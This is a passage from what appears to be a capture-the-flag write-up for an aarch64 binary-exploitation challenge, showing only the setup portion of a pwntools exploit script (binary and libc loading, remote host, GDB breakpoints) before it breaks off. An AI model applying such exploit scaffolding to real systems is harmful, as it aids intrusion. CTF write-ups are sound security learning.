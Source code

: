 running it againts server

<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
ld = './ld-linux-aarch64.so.1'
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'arm-and-a-leg.gold.b01le.rs', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x0400a1c
'''.format(**locals())
# break *0x0400b58
# break *0x0400c0c

```